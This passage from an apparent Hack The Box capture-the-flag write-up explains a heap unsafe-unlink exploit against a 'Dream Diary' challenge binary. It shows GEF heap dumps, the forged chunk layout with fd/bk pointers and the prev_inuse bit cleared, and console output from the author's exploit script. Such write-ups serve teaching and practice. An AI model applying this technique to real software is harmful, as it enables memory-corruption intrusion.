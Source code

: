 ```r
0x230a240:	0x0000000000000080	0x0000000000000090
0x230a250:	0x4545454545454545	0x4545454545454545
0x230a260:	0x4545454545454545	0x4545454545454545
0x230a270:	0x4545454545454545	0x4545454545454545
0x230a280:	0x4545454545454545	0x4545454545454545
0x230a290:	0x4545454545454545	0x4545454545454545
0x230a2a0:	0x4545454545454545	0x4545454545454545
0x230a2b0:	0x4545454545454545	0x4545454545454545
0x230a2c0:	0x4545454545454545	0x4545454545454545
0x230a2d0:	0x4545454545454545	0x0000000000020d31
```

Here, the our forged chunk is within the 3rd chunk, our `fd` points to the `0x6020c0` and the `bk` to the `0x6020c8`, this aside, then we modified the `prev_size` of the chunk `0x230a1c0` to the `0x80` as it was `0x90` before, we did this because, our forged chunk must be considered from the `0x230a1c0` as from the we have an actual free'd chunk structure, then we made `prev_inuse` bit of the chunk `0x230a250` equal to the `0` to consider the chunk as a free'd chunk, so when we try to do `free(chunk4)` it'll consolidate the adjacent chunks, hence doing an unsafe unlink, resulting in the `fd` of the free'd chunk pointing to the `0x6020c0`.

Let's free the chunk 4 and see the memory content to make this more clear.


```r
0 [08:53:07] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2978
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+

[..snip..]

gef➤  heap chunks
Chunk(addr=0x2236010, size=0x90, flags=PREV_INUSE)
    [0x0000000002236010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x22360a0, size=0x90, flags=PREV_INUSE)
    [0x00000000022360a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x2236130, size=0x90, flags=PREV_INUSE)
    [0x0000000002236130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x22361c0, size=0x90, flags=PREV_INUSE)
    [0x00000000022361c0     00 00 00 00 00 00 00 00 41 0e 02 00 00 00 00 00    ........A.......]
```